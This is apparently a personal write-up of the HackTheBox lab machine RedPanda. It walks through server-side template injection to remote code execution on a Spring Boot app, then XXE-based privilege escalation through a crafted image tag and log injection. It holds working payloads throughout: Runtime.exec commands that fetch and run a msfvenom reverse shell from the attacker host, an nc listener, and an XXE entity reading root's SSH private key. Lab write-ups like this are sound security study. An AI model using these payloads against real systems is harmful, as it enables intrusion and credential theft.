



# Red Panda

## Reconnaissance

Access to ```http://10.10.11.170```, but it can't show up.(failed)

### nmap 


- The port 8080 is http-proxy
- Set up the proxy in Burp
- Access '10.10.11.170' again, then the web page can show.

### Information Gathering from Web Application


- Browse to ```10.10.11.170```


- Arbitray insert data to search 


- Using Burp to intercept the search request


- Fuzz the name value 


- Response for fuzz result 


- Fuzz the name value_2 


- Response for Fuzz result _2


- Search 'a' in Web Page, it will show up 4 results.


- And I noticed the text
> Florida panda is the evil twin of Greg. Watch out for him.


- So, I search 'Greg', the text show:

> Greg is a hacker. Watch out for his injection attacks


- I think I can do some injection attack on this search function.

### Other Information 

- Gobuster to fuzz the directory 


- Access '/stats'


- Acess the 2 author to check their statisics
- woodenk


- damia 


- Download Table 


### Server Identify

> Besides the getting know about website operation, the other important thing is the backedn server.
> I try to enumeration from header on both normal and error response, but it doesn't show.
> But when I tried to cause error, the page show "Whitelabel Error Page".
> That definitely is a big hint, google the error title, and I know that is error page for spring boot.


- Cause error message 

```
#{fff
```


- With following error page and search by google, I know the server is based on spring boot.(java based)


## Exploit 

### Injection Attack

- Since the text result, I guess there must have injection vulnerability on search function.
- So I list the possible injection attack as follow : 
    1. SQL Injection: Failed
    
    
    2. XSS: Failed 
    
    
    3. Command Injection: Failed

    
    4. CRLF Injection: Failed
    
    
    
    5. Host Header Injection
    
    
    
    6. Server Side Template Injection

    
    
    

    


### Payload command 
Command : 
```
*{"".getClass()}
```

Result : 


Command : 
```
*{"".getClass().getName()}
```
Result : 


Command : 
```
#Access to arbitrary class
*{"".getClass().forName("java.util.Date")}
```

Result : 


Command : 
```
#List methods of a class
*{"".getClass().forName("java.util.Date").getMethods()[0].toString()}
```

Result : 


Command : 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://www.google.com")}

```
Result : 


- python set up the simple http server

```
python3 -m http.server
```


- Check the connection
Command : 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.10:8000")}

```
Result : 


- Generate the reverse shell 

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=1337 -f elf > rev.elf
```


- Download reverse shell
Command : 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.10.16.10:8000/rev.elf")}

```
Result : 


- Change reverse shell permission 
Command : 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./rev.elf")}

```
- set up the reverse connect
```
nc -nlvp 1337
```


- Execute reverse shell from RCE
Command : 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./rev.elf")}

```


- Beauty the shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


```
stty raw -echo; fg
```

Get User Flag : 
```
5909096f51152d2ba4c2c550d67e80a68
```


## Privilege Escalation

- After access to victim server with user : woodenk by SSTI to RCE.
- Upload linpeas and execute it 
- I screenshot the following information I think useful at first.
- Superuser and user woodenk


- The file about passwd


- Unexpected file in root directory : ```/credits```


- The readable file beloning to root but also readable by me.


- Interesting GROUP writable files 
- The more attractive one is ``` /opt/panda_search/readpanda.log```


- Searching ```*password*``` or ```*credential* ``` in home 


- According to above result, check ```/opt/panda_search``` first

- the ```redpanda.log``` groups is ```logs```


- Here are the redpanda page's source code which is Java code.


- Check the contain of MainController.java
```
# cat MainController.java
```
- Here are a function which path name is ``` export.xml``` it will export xml file to ```/credits ```directory with the name ```autohr+_creds.xml```

- Check the contain of PandaSearchApplication.java


- Check the contain of RequestInterceptor.java


- Tools : ```pspy64s``` result, Here are 2 java execute command

First one :
```
java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
```


Second one : 
```
java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
```


- Check process 
```# ps -aux | grep java ```


- The content of cleanup script
```
# cat cleanup.sh
```

## Analysis Java Source Code 

With the ```pspy64s``` result, I know there are 2 java execution command. 
So let's try to decompiler the jar file with following tool, and check what's the action they do.

- Tools : Java Decompiler GUI
- Decompile ```final-1.0-jar-with dependencies.jar```


- And with ```linpeas.sh``` result, I know there is a redpanda log file. 
- And I also find the logparser function in this jar file, so let's digging into this function.
- The following images are showing the detail of LogPareser function.

-- pareseLog function 
-- Using HashMap to map data


-- Second function: ```getArtist```
-- It will check the jpgFile's metadata and record the Directory's Tag description 


-- Third function: ```addViewTo```
-- There will have a XML file to record the View number
-- Here are many operation code for XML


-- The final one: main function
-- It will first red ```redpanda.log``` file and extract the line to parsing.
-- It will check every line is image or not
-- With image file, it will parse the metadata, and find out the Artist value.
-- Then it will define xmlPath with artist value like ```artist + _creds.xml``` and store in /credits directory.
-- Then call the addViewTo function to add view number record how many times the user trigger this image.


### Post Exploitation

- So, according to above source code review, let's checking  the ```/credits ``` content. (locate in ```/LogParser/final/target```)
- I can find 2 xml file which name like ```artist+ _creds.xml```
    1. damian_creds.xml
    2. woodenk_creds.xml


- Folow above sample xml file to create another one in attack host.
- And according to above source code review, I knonw the the LogParser will read and write data to xml code, so maybe I can add some malicious code in xml to achieve the XXE attack, then I can read the local root file or get a root shell.


#### Preparation for XXE 

- Now, the goal is try to create a xml file which contain the malicious xxe code 
- So, first, I try to create a xml file in /credits first to test if I have permission to modify the file under this directory.
- but it failed, I can't create a xml file directly(with the current permission, uid=woodenk, gid=logs).


- And I also can't move file to static directory
- It also failed.


- So, I find other directory I ever browsed(```/opt```, ```/tmp```, ```/home```)
- Permission in ```/home/woodenk```, Succeed to create a file.


- Permission in ```/tmp```, Succeed to create a file.


- Permission in ```/opt```, Failed to create a file.


- Then checking the parser source code directory again. (```/opt/credit-score```)
    1. I know here is a jar file which named is ```final``` and I found that is executed by java in ```pspy64```'s result. With the code, I know the xml file is created by this jar file, so I check the jar file's permission, it is owned by root abd belong to root group. So, I think that maybe I can create my own xml file with malicious code and parse it by this jar.

    
    2. I know the xml file's name is composed by 'artist' from image property,and the source code also specific the xml save location(```/credits```) when the xml create, and the artist get from image, then the java code will parse the log to get the image. So maybe I can create an image and set up the 'Artist' property by ```exiftool``` first, then modify the log file to read image. then set the Artist value to change the directory to the xml file location which I have write permission one. ex. ```/tmp```. 

    

    
- So, I also check the ```redpanda.log```'s content and permission.
- Content : 


- Permission, I have permission to modify it by ```echo``` command.
- The test payload in log file as follow : 
```
echo '200||10.10.16.20||Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0||/tmp/exploit.jpg' >> redpanda.log
```


#### XXE Attack step 

- First, Make a screenshot and name it as ```exploit.jpg```
- Add the 'Artist' property to it by ```exiftool```


- Doulble Check the metadata, and the Aritist value is ```../tmp/gg```
```
exiftool exploit.jpg
```


- Creating the malicious XML file
```
# vim exploit.xml
```
- The goal of this xxe attack is access the ssh private key
- Content as follow: 

```
<!DOCTYPE foo [
    <!ELEMENT FOO ANY>
    <!ENTITY XXE SYSTEM "file://roo/.ssh/id_rsa" >]>
<credits>
    <author>gg</author>
    <image>
        <uri>/../../../../../../tmp/exploit.jpg</uri>
        <views>1</views>
        <foo>&xxe;</foo>
    </image>
    <totalviews>2</totalviews>
</credits>
```


- The payload in log file as follow : 
```
echo '200||a||a||/../../../../../../tmp/exploit.jpg' >> redpanda.log
```
- Payload explain: since the jpg file is locate in tmp, but it will find jpg in ```/static``` so if need to change the directory to ```/tmp```, then I can find the exploit jpg.


- The result : I got the private key of ssh 


- Copy the private key content to attacker local file and change the permission to execute.
```
chmod 600 le_key.txt
```


- SSH to victim with private key, we get root user.
```
ssh root@10.10.11.170 -i le_key.txt
```


- The flag as follow:
```
f17ad3072ffbfcc5cb3e2acdde4e9b04
```


## Reference 

- [official discussion page](https://forum.hackthebox.com/t/official-redpanda-discussion/261025/183)

### Write up 

- [HACKTHEBOX – REDPANDA](https://shakuganz.com/2022/07/12/hackthebox-redpanda/)
- [HackTheBox Writeup: RedPanda](https://vato.cc/hackthebox-writeup-redpanda/)

### Injection Attack 

- [Acunetix Injection Attack List](https://www.acunetix.com/blog/articles/injection-attacks/)
- [List of Attack Vectors](http://www.tecapi.com/public/relative-vulnerability-rating-gui.jsp)
- [Top 5 most dangerous injection attacks](https://www.invicti.com/blog/web-security/top-dangerous-injection-attacks/)

##### Command Injection

- [Command Injetion Introduction](https://ithelp.ithome.com.tw/articles/10242080)
- [Command Injection Payload](https://github.com/payloadbox/command-injection-payload-list)

##### CRLF

- [CRLF Injection Attack](https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46)
- [CRLF Injection Payload-1](https://github.com/cujanovic/CRLF-Injection-Payloads)
- [CRLF Injection Attack Introduction](https://ithelp.ithome.com.tw/articles/10242682)

##### Host Header

- [Host Header Injection](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md)
- [Host Header Injection Introduction](https://ithelp.ithome.com.tw/articles/10268595)

##### SSTI

- [SSTI Payload](https://github.com/payloadbox/ssti-payloads)
- [SSTI Introduction](https://ismailtasdelen.medium.com/server-side-template-injection-payloads-895c6fc273e4)
- [(GITHUB)SSTI_EL - Expression Language](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md)
- [(GITHUB)ssti-payload](https://github.com/VikasVarshney/ssti-payload)
- [(GITHUB)Templates Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#templates-injections)
- [(GITHUB)Server Side Template Injection Payloads](https://github.com/payloadbox/ssti-payloads)


- [payloadthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#java-alternative-1)

#### Spring Framework / Spring Boot

- [Spring Resource loader with getResource() example](https://mkyong.com/spring/spring-resource-loader-with-getresource-example/)
- [Runtime exec](https://www.cnblogs.com/leodaxin/p/7805676.html)
##### Confirm the backend serer is  Spring Framework / Spring Boot 

- [Error message - This application has no explicit mapping for /error, so you are seeing this as a fallback](https://blog.csdn.net/weixin_44299027/article/details/93380344)
- [Error page - This application has no explicit mapping for /error, so you are seeing this as a fallback. Whitelabel error page](https://www.yawintutor.com/application-has-no-explicit-mapping-for-error-whitelabel-error-page-with-status-404/)
- [Sprint boot error page](https://zetcode.com/springboot/whitelabelerror/)


### Tools

- [nikto through proxy](http://www.hacktress.com/how-to-use-a-proxy-with-nikto/)


- [Gobuster run with proxy](https://www.reddit.com/r/oscp/comments/flvwvy/how_to_route_tools_gobuster_through_a_burpsuite/)
- [Web Scanner - wapiti usage](https://www.kalilinux.in/2021/01/wapiti-tutorial.html)
- [Web Scanner - wapiti introduction](https://ithelp.ithome.com.tw/articles/10226899)
- [Kali - Website Penetration Testing - List](https://www.tutorialspoint.com/kali_linux/kali_linux_website_penetration_testing.htm)
- [open-source web application vulnerability scanners](https://resources.infosecinstitute.com/topic/14-popular-web-application-vulnerability-scanners/)
- [Java Decompiler - JD Project](http://java-decompiler.github.io/)
- [Java Decompiler in Kali](https://www.kali.org/tools/jd-gui/)
- [Screenshot for kali](https://www.javatpoint.com/how-to-take-screenshot-in-kali-linux)
- [pspy64s](https://github.com/DominicBreuker/pspy)
- [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [exiftool](https://exiftool.org/)
- [exiftool command](https://exiftool.org/examples.html)

### About Linux Permission

- [Understanding Linux File Permissions](https://linuxize.com/post/understanding-linux-file-permissions/)
- [File Permissions in Linux / Unix: How to Read, Write & Change?](https://www.guru99.com/file-permissions.html)

- In here, I want to clarify the rule of permission in linux, since I checked the ```id``` command first when I login; the uid is woodenk but gid is logs


- I'm not think it's strange in here, but I think if I want to escalate my privilege, the permission setting in linux are very very important.


###### tags: `HackTheBox` `Easy` `SSTI` `XXE` `Code Review` `LFI` `EXIF TOOL` `Image Exploit` `linux`